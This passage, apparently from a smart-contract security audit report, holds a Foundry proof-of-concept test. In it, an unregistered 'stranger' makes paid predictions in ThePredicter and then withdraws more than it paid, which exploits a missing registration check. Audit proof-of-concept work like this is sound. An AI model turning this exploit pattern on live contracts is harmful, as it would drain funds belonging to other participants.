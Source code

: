```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {ThePredicter} from "../src/ThePredicter.sol";
import {ScoreBoard} from "../src/ScoreBoard.sol";

contract ThePredicterPocTest is Test {
    ThePredicter public thePredicter;
    ScoreBoard public scoreBoard;
    address public organizer = makeAddr("organizer");
    address public friend = makeAddr("friend");
    address public stranger = makeAddr("stranger");

    uint256 constant ENTRANCE_FEE = 0.04 ether;
    uint256 constant PREDICTION_FEE = 0.0001 ether;

    function setUp() public {
        vm.startPrank(organizer);
        scoreBoard = new ScoreBoard();
        thePredicter = new ThePredicter(address(scoreBoard), ENTRANCE_FEE, PREDICTION_FEE);
        scoreBoard.setThePredicter(address(thePredicter));
        vm.stopPrank();

        vm.deal(friend, ENTRANCE_FEE);
        vm.deal(stranger, ENTRANCE_FEE * 2);
    }

    function testNonRegisteredUserPredictions() public {
        vm.prank(friend);
        thePredicter.register{value: ENTRANCE_FEE}();

        uint256 balanceBeforePredictions = stranger.balance;
        vm.startPrank(stranger);
        thePredicter.makePrediction{value: 0.0001 ether}(1, ScoreBoard.Result.Draw);
        thePredicter.makePrediction{value: 0.0001 ether}(2, ScoreBoard.Result.Draw);
        thePredicter.makePrediction{value: 0.0001 ether}(3, ScoreBoard.Result.Draw);

        vm.startPrank(organizer);
        scoreBoard.setResult(0, ScoreBoard.Result.Draw);
        scoreBoard.setResult(1, ScoreBoard.Result.Draw);
        scoreBoard.setResult(2, ScoreBoard.Result.Draw);
        scoreBoard.setResult(3, ScoreBoard.Result.Draw);
        scoreBoard.setResult(4, ScoreBoard.Result.Draw);
        scoreBoard.setResult(5, ScoreBoard.Result.Draw);
        scoreBoard.setResult(6, ScoreBoard.Result.Draw);
        scoreBoard.setResult(7, ScoreBoard.Result.Draw);
        scoreBoard.setResult(8, ScoreBoard.Result.Draw);
        vm.stopPrank();

        vm.prank(stranger);
        thePredicter.withdraw();
        uint256 balanceAfterPredictions = stranger.balance;
        console.log(balanceAfterPredictions);
        vm.assertGt(balanceAfterPredictions, balanceBeforePredictions);
    }
}
```
## Impact
